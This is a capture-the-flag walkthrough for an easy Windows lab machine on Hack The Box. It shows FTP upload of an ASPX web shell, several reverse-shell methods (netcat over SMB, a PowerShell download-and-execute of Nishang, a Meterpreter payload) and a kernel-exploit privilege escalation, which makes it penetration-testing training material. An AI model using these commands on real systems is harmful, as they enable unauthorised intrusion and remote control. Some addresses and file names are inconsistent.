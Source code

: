## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)


## 🧭 Reconnaissance

**Full port scan:**
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
```

**Targeted version/service scan:**
```bash
nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
```

---

## 🌐 [Web](HTTP) & [FTP](FTP) Enumeration

**Check FTP access (Anonymous allowed):**
```bash
ftp 10.10.10.5
# Login: anonymous / [blank]
```

**Identify if FTP root = Web root:**
```bash
# Upload test file or observe files:
put test.html
# Check in browser: http://10.10.10.5/test.html
```

**Check headers for ASP.NET support (e.g. using Burp):**
```
X-Powered-By: ASP.NET
```

---

## 📥 Initial Foothold (Webshell Upload)

**Copy a basic ASPX web shell:**
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

**Upload via FTP:**
```bash
ftp> put cmd.aspx
```

**Access webshell:**
```
http://10.10.10.5/cmd.aspx
```

**Execute command (example):**
```
whoami
```

---

## 🐚 Reverse [Shell](SSH) (Multiple Methods)

### Option 1: Netcat

**Start SMB share:**
```bash
mkdir smb
cp /usr/share/windows-binaries/nc.exe smb/
sudo smbserver.py share smb
```

**Start listener:**
```bash
nc -lnvp 443
```

**From webshell:**
```cmd
\\10.10.14.14\share\nc.exe -e cmd.exe 10.10.14.14 443
```

---

### Option 2: Nishang (PowerShell TCP)

**Edit and host reverse shell:**
```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 smb/
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443" >> smb/Invoke-PowerShellTcp.ps1
python3 -m http.server 80
```

**From webshell:**
```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1')"
```

---

### Option 3: Meterpreter

**Generate payload:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=666 -f aspx -o met_rev_666.aspx
```

**Upload via FTP:**
```bash
ftp> put met_rev_666.aspx
```

**Start handler:**
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.13
set LPORT 666
run
```

**Trigger callback:**
```
curl http://10.10.10.5/met_rev_443.aspx
```

---

## 🔧 Privilege Escalation

```
getuid
```

```
systeminfo
```

**Check .NET versions:**
```cmd
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

**Use [Watson](https://github.com/rasta-mouse/Watson) (uploaded via SMB):**
```cmd
\\10.10.14.14\share\Watson.exe
```

https://github.com/abatchy17/WindowsExploits

https://www.exploit-db.com/exploits/40564

**Pick MS11-046 (example):**
```bash
wget https://github.com/abatchy17/WindowsExploits/blob/master/MS11-046/MS11-046.exe
```

**Upload and run:**
```cmd
C:\inetpub\wwwroot\MS11-046.exe
```

**Confirm SYSTEM shell:**
```cmd
whoami
```

---

## 🎯 Flags

```cmd
type C:\Users\babis\Desktop\user.txt
type C:\Users\Administrator\Desktop\root.txt
```

---

Let me know if you want this exported as a Markdown file or want to move on to another box! 💥